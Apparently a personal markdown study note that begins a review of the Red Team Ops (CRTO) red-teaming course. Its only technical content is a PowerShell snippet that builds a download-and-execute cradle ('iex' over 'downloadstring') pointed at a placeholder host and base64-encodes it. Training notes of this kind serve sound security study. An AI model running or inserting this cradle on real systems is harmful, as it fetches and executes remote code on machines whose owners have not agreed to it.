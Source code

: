 # CRTO Notes

**This will be the start of my CRTO review of the notes and the modules. I will combine this later on into the bigger methodology that I'm working on.**

Course is from zero point security, probably one of the best trainings I've received so far. I strongly recommend this to get started in red teaming. 

Course link: [Red Team Ops](https://training.zeropointsecurity.co.uk/courses/red-team-ops)


Side stuff:

for download powershell cradle and base64, in powershell do like so
```
$str = 'iex (new-object net.webclient).downloadstring("http://ip:port/uri")'
[System.Convert]::ToBase64String([System.text.Encoding]::Unicode.GetBytes($str))
```
